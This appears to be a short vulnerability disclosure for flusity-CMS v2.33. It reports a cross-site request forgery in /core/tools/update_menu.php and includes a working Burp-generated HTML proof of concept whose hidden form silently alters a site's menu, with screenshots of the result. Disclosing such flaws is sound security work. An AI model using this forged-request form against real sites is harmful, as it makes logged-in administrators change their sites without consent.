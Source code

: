 target:https://github.com/flusity/flusity-CMS
version: v2.33

flusity-CMS v2.33 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  /core/tools/update_menu.php

![1](https://github.com/Carl0724/cms/assets/82999276/5a2c5028-6f12-4c47-9ab5-0fe4441d6c43)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/core/tools/update_menu.php" method="POST">
      <input type="hidden" name="action" value="update&#95;menu" />
      <input type="hidden" name="menu&#95;id" value="12" />
      <input type="hidden" name="menu&#95;name" value="Kontaktai123" />
      <input type="hidden" name="lang&#95;menu&#95;name" value="Contact" />
      <input type="hidden" name="page&#95;url" value="contacts" />
      <input type="hidden" name="position" value="2" />
      <input type="hidden" name="template" value="template&#95;contacts" />
      <input type="hidden" name="show&#95;in&#95;menu" value="1" />
      <input type="hidden" name="parent&#95;id" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>






```

![2](https://github.com/Carl0724/cms/assets/82999276/db9eb17a-28b1-4e48-9540-f308fa4005ea)



Successed

![3](https://github.com/Carl0724/cms/assets/82999276/b8120501-a835-4a3e-8c76-69b442ea15c5)
